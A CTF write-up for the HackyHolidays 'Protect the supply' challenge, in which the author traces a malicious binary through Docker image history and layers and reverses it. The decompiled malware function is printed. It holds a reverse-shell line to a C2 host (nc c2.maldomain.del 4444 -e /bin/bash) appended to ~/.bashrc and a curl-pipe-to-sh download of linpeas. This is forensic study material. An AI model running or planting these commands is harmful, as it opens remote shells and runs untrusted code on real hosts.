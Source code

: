 ```yaml
---
title: HackyHolidays - Protect the supply - Writeup
tags: hackyholidays malware linux forensics reversing
---
```


# Description

This challenge was in both the forensics and reversing categories

![image](https://user-images.githubusercontent.com/84577967/178866898-e4fcedc6-2d0d-4bc2-a2de-8237f9e290a8.png)

# Solution

The challenge is a container that can be pulled using the command described in the challenge description.

```bash
docker run -ti hackazon/micro_ghost /bin/sh
```

As a fan of `bash` shell, I had to change the `/bin/sh` to `/bin/bash`

```bash
docker run -ti hackazon/micro_ghost /bin/bash
```

![image](https://user-images.githubusercontent.com/84577967/178867304-81b759ea-a401-424c-9980-758741ec271b.png)

After we pull up the full docker image, we can investigate the command history

```bash
docker history IMAGEID
```

Of course we have to change the `IMAGEID` value and to retrieve the challenge image id we can use this simple command

```bash
docker image ls | grep hackazon/micro_ghost
```

![image](https://user-images.githubusercontent.com/84577967/178867433-0514a809-4f6c-4ce0-8fe8-4a81a7187c24.png)


```bash
docker history fc6642d32b03
```

![image](https://user-images.githubusercontent.com/84577967/178867679-d7af4be8-2293-480f-9441-5cdf8b75a792.png)

The output of the command may not be complete, but we can add additional arguments and use the `jq` tool to beautify the output.

{% raw %}
```bash
docker history --format "{{json .}}" fc6642d32b03 --no-trunc |jq .
```
{% endraw %}

![image](https://user-images.githubusercontent.com/84577967/178867846-7fa527fb-30c7-40c9-b470-66625e2d9e6a.png)

The full output:

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:06+01:00",
  "CreatedBy": "/bin/sh -c rm /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "sha256:fc6642d32b03e5c96e96299b64ca355bcfea30ef6ad4dec984f2601129210bbb",
  "Size": "0B"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:04+01:00",
  "CreatedBy": "/bin/sh -c /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "0B"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:03+01:00",
  "CreatedBy": "/bin/sh -c mv /opt/libc.so.6 /opt/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "1.9MB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:02+01:00",
  "CreatedBy": "/bin/sh -c chmod +x /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "14.4kB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:00+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:46b15dd2b1c1b2421f8f66c0e0b1adbb2be1fa29bdfb24df21ab41a4393cc4ca in /opt/ld-linux-x86-64.so.2 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "204kB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:00+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:5f853a35eb22d7cd0b3789fdf55937ebf492d63386894ed02ab7d6fa7717ff30 in /opt/libc.so.6 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "1.9MB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:22:59+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:1d19734b949df42e538d10ea3e6c9eb33e3f2064be2540a446c095ee007af323 in /lib/x86_64-linux-gnu/libc.so.evil.6 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "14.4kB"
}
{
  "Comment": "",
  "CreatedAt": "2022-06-06T23:21:26+01:00",
  "CreatedBy": "/bin/sh -c #(nop)  CMD [\"bash\"]",
  "CreatedSince": "5 weeks ago",
  "ID": "<missing>",
  "Size": "0B"
}
{
  "Comment": "",
  "CreatedAt": "2022-06-06T23:21:25+01:00",
  "CreatedBy": "/bin/sh -c #(nop) ADD file:11157b07dde10107f3f6f2b892c869ea83868475d5825167b5f466a7e410eb05 in / ",
  "CreatedSince": "5 weeks ago",
  "ID": "<missing>",
  "Size": "77.8MB"
}
```

What took my attention is the third value from bottom, where a weird file was copied to the container `/lib/x86_64-linux-gnu/libc.so.evil.6`

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:22:59+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:1d19734b949df42e538d10ea3e6c9eb33e3f2064be2540a446c095ee007af323 in /lib/x86_64-linux-gnu/libc.so.evil.6 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "14.4kB"
}
```

But it seems like it was removed 

![image](https://user-images.githubusercontent.com/84577967/178868216-05856585-5204-49e1-b0b6-25c658d0ef37.png)

And this what we can notice in the last command

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:06+01:00",
  "CreatedBy": "/bin/sh -c rm /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "sha256:fc6642d32b03e5c96e96299b64ca355bcfea30ef6ad4dec984f2601129210bbb",
  "Size": "0B"
}
```

And just seconds before that it was executed

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:04+01:00",
  "CreatedBy": "/bin/sh -c /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "0B"
}
```

In order to find the original file, we need to examine the preceding layers of the Docker image. One way to do this is by saving the image to a tar archive, which allows us to easily examine the individual layers of the image.

```bash
docker save fc6642d32b03 > fc6642d32b03.tar
```

After extracting the tar file, we can locate a file called `manifest.json`, which contains information about all the layers of the image. This file can be useful in our investigation.

![image](https://user-images.githubusercontent.com/84577967/178868876-4b131905-8e26-46e2-8055-edfeb0d9ec21.png)

The file was copied in the third operation, and the second operation was just a CMD command. This means that the binary file we are looking for may be located in the second layer of the image `104337d79b4c7be52c587e29595ddf09df584bd991875e10392a0fc1fd901b57/layer.tar`.

![image](https://user-images.githubusercontent.com/84577967/178869275-0e071309-fcf8-4e51-8d5a-32c55f1db72b.png)

Let's open it in `Cutter` to disassemble the binary and gain a deeper understanding of what it does

![image](https://user-images.githubusercontent.com/84577967/178871965-9a8941ef-aae7-44da-b837-de160fdc5ccd.png)

Upon examining the functions of the binary, it appears that it may be a type of malware.

![image](https://user-images.githubusercontent.com/84577967/178872535-5ff482ec-95c6-49f5-bc99-07121fce5e9a.png)

![image](https://user-images.githubusercontent.com/84577967/178872988-1924c75e-1aaf-40ee-b768-3c17ebcca50f.png)

![image](https://user-images.githubusercontent.com/84577967/178877053-a128d4f5-b6a5-4757-a4da-5f4703b9ca3c.png)

In the screenshot below, the third function appears to be a loop that retrieves its values from the main function.

![image](https://user-images.githubusercontent.com/84577967/178877935-a1227b25-ee6f-4778-9827-9a577b954532.png)

In order to safely run the binary and see what it does, we can copy it to a `Ubuntu` container. This will allow us to examine the malware's behavior without exposing our host system to any potential risks.

![image](https://user-images.githubusercontent.com/84577967/178881692-9f8b49c1-4d1a-4f69-8370-181bcd329351.png)

Based on the functions we have analyzed, it seems that the malware performs the actions that we have identified.

```C
void fcn.00001208(void)
{
    system("apt install netcat");
    system("apt install wget");
    system("echo \'nc c2.maldomain.del 4444 -e /bin/bash >> ~/.bashrc\'");
    system("curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh >lin.log");
    return;
}
```

The third function with the loop was not initially visible to us. 
However, using the ltrace tool has allowed us to see this function and gain a better understanding of the malware's behavior.

![image](https://user-images.githubusercontent.com/84577967/178882405-f8c61a1f-ee66-4cc7-9a92-9fa9c36113c3.png)

By default, ltrace limits the output of strings to 32 characters. However, we can use additional arguments to change this behavior `-s "number of strings"` and view longer strings if needed.

```bash
ltrace -s 200 ./libc.so.evil.6
```

# Flag

We were able to successfully retrieve the flag for the challenge.

![image](https://user-images.githubusercontent.com/84577967/178882767-4f9706a0-ff9b-41ac-a9f5-add41e77b7a8.png)

